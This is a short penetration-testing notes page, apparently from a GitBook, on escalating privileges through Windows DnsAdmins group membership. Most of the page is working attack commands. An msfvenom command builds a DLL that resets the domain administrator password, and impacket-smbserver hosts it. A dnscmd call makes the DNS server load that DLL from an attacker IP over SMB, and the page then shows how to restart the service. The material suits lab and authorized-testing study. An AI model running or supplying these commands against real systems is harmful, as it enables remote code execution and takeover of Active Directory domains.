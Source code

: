 # DnsAdmins

## Information

This membership can be exploited by performing a **DLL injection**, i.e. specifying a plugin DLL that can be loaded upon (re)starting the DNS service.

## Exploitation

### Admin Password

Generate a malicious DLL and [transfer it](../../../../../../tools/file-transfers.md) to the target.

{% hint style="danger" %}
Passing any payload this way **crashes the DNS server** as it never really starts. More information on how to bypass this issue by executing the payload as a thread [here](https://youtu.be/8KJebvmd1Fk?t=3034).
{% endhint %}

{% code overflow="wrap" %}
```bash
# generating the payload
sudo msfvenom -p windows/x64/exec cmd='net user administrator Password123! /domain' -f dll > da.dll
# starting an SMB server
$ impacket-smbserver -smb2support share ./
```
{% endcode %}

Set the DLL path from the compromised host and restart the DNS service (DnsAdmins cannot restart services by default, but it not uncommon to be given that right).

{% code overflow="wrap" %}
```powershell
# setting the Windows Registry remote DLL path
dnscmd.exe [FQDN] /config /serverlevelplugindll \\10.10.14.3\share\da.dll
```
{% endcode %}

Restart the DNS service. `DnsAdmins` members cannot restart services by default using `sc`, but they can do it with `dnscmd`.

{% tabs %}
{% tab title="dnscmd" %}
```powershell
dnscmd [FQDN] /restart
```
{% endtab %}

{% tab title="sc" %}
```powershell
# stop service
sc.exe stop dns
# start service
sc.exe start dns
```
{% endtab %}
{% endtabs %}

For an example of the above process check [here](https://x7331.gitbook.io/boxes/boxes/boxes/medium/resolute#elevation-of-privileges).

## Resources

{% tabs %}
{% tab title="Exploitation" %}
{% embed url="https://adsecurity.org/?p=4064" %}
{% endtab %}

{% tab title="DnsAdmins In-depth" %}
{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}
{% endtab %}
{% endtabs %}
